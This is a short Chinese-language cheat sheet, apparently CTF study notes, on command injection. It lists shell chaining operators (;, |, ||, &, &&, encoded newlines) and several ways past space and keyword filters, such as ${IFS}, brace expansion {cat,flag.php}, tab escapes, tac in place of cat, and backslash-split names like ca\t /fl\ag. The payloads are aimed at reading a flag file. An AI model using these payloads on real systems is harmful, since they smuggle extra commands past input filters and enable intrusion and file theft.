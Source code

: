 #命令联合和空格绕过方法#
##命令联合执行##
- ； 前面的执行完执行后面的
- |  管道符，上一条命令的输出，作为下一条命令的参数
- || 当前面的执行出错时（为假）执行后面的
- & 将任务置于后台执行
- && 前面的语句为假则直接出错，后面的也不执行，前面只能为真
- %0a （换行）
- %0d （回车）

##命令绕过空格的方法##
- ${IFS}$9
- {IFS}
- $IFS
- ${IFS}
- $IFS$1 //$1改成$加其他数字貌似都行
- IFS
- <
- <>
- {cat,flag.php} //用逗号实现了空格功能，需要用{}括起来
- %20  （space）
- %09  （tab）
- X=$'cat\x09./flag.php';$X  (\x09表示tab，也可以用\x20)
- 有时会禁用cat：可以使用tac反向输出命令，linux命令中可以加入\,所以甚至可以ca\t /fl\ag